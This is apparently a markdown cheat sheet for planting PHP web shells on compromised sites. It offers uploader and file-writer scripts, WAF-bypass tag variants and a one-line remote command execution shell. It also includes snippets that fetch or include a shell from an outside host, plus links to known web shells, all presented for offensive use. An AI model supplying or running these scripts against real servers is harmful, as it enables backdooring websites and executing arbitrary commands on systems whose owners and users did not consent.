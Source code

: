 # PHP Shell Uploading Scripts and Bypass
### Uploader
1. Normal File Uploader
>

    <?php 
        echo 'Uploader<br>';
        echo '<form action="" method="post" enctype="multipart/form-data">';
        echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" value="Upload"></form>';
        if( $_POST['_upl'] == "Upload" ) {
            if(copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) {
                echo '<b>Success</b><br><br>';
            }else {
                echo '<b>Failed</b><br><br>'; 
            }
	}
    ?>

2. CSRF File Uploader

>This uploader bypasses content length if the normal file uploader code is too long. To access this, open the file where you save it and do a CSRF with POST file value of `file`.

	
    <?php
    	copy($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    ?>
> This saves your file to the same directory of the uploader.    
3. File Get Contents
>

    <?php
    	file_put_contents(file_get_contents('https://somesite.com/shell.txt'),'shell.php');
    ?>
> Will work if `allow_url_fopen` is on. Upload this as up.php then open it. It will automatically generate a file named shell.php on the same directory.

4. File Writer ([link](https://github.com/alita-ido/PHP-File-Writer))
>If you managed to make a file uploader but it doesn't work, maybe the site does not allow uploading. Some sites don't enable upload functions, hence `move_uploaded_files` and `copy_uploaded_files` will not work. File writer works by using different command (`fwrite`).


    <?php
        $a = $_POST['code'];
        $file = fopen($_POST['file'],'w');
        fwrite($file,$a);
        fclose($file);
    ?>
    <center>
      <form method="post" id="form">
        <h2>File Writer</h2>
        File Name<br><input type="text" name="file" placeholder="shell.php"><br>
        Shell Code<br><textarea name="code" form="form" placeholder="Paste your shell here"></textarea><br>
        <input type="submit" value="Write">
      </form>
    </center>
If all of the above fails or is blocked by WAF, try using other php notations.

a. `<?php echo 'sample'; ?>` - normal one

b. `<? echo 'sample'; ?>` - will work if short_open_tag is enabled

c. `<% echo 'sample'; %>` - PHP < 7.0.0

d. `<script language="php"> echo 'sample'; </script>` - PHP < 7.0.0

### Shell Codes I use
1. [b374k](http://www.topshellv.com/shell/b374k-shell)
> This shell is large >900kb. The size is large which gives room to more functionality. But more functionality means more functions used, and more functions used results to more `DISABLE_FUNCTIONS` which might result again to error in shell or blocked by WAF.

2. [RBBD priv8 shell](https://github.com/iamhex/Priv8-Shell-v3)
> I think this is a "so called" bypass shell.It is light weight, around ~70kb. I think it is based on wso.php web shell

3. [b374k-mini](https://github.com/The404Hacking/b374k-mini/)
> File size is ~14kb and bypasses as well some WAFs while uploading

4. RCE shell
> I use this when we need to  upload a shell with very small file size

	<?=`$_GET[1]`?>
> This is a shorthand notation for `<?php echo shell_exec($_GET['1']);?>`. But note that this only works if `shell_exec` is not in the `DISABLE_FUNCTIONS` in phpinfo.

5. Include
> Used for bypassing file size as well due to its small size.

	<?php include('https://somewebshell.com/shell.txt');?>
    
> This will work only if `allow_url_include` is not in the `DISABLE_FUNCTIONS` in phpinfo.
